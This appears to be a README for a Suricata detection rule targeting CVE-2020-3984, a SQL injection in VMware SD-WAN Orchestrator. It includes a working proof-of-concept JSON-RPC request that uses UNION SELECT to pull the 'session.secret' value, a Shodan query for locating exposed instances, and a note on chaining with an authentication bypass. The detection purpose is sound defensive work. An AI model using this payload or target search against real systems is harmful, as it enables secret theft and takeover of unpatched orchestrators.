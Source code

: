 ## Overview
CVE-2020-3984 is a Union-based SQL injection on VMware SD-WAN Orchestrator (former VeloCloud).

Although it requires valid credentials, attackers could chain it with CVE-2020-4001 to exploit without authenticating.

The Suricata rule tries to capture the method "**softwareUpdate/getSoftwareUpdates**" and the "**union select**" keyword (fundamentally in Union-based SQL injection).

### Bonus for bug bounty hunters
Search for VMware SD-WAN Orchestrator on Shodan:
**http.title:"VeloCloud"**

## Proof of Concept
```
POST /portal/ HTTP/1.1
Host: example.com
Content-Length: 413
Content-Type: application/json

{"jsonrpc": "2.0", "method": "softwareUpdate/getSoftwareUpdates", "params": {"with": ["profileCount"], "modulo": 5, "modulus": "9999 UNION SELECT a.id, a.networkId, a.name, b.value, a.version, a.buildNumber, a.deviceFamily, a.updateType, a.deviceCategory, a.buildType, a.manifest, a.blobId from VELOCLOUD_SOFTWARE_UPDATE a, VELOCLOUD_SYSTEM_PROPERTY b where a.id = 1 and b.name=\"session.secret\"; -- "}, "id": 5}
```

## References
* https://medium.com/realmodelabs/sd-pwn-part-4-vmware-velocloud-the-last-takeover-a7016f9a9175
* https://github.com/RealmodeLabs/SD-PWN/blob/master/vmware_velocloud_orchestrator_rce.py
* https://www.vmware.com/security/advisories/VMSA-2020-0025.html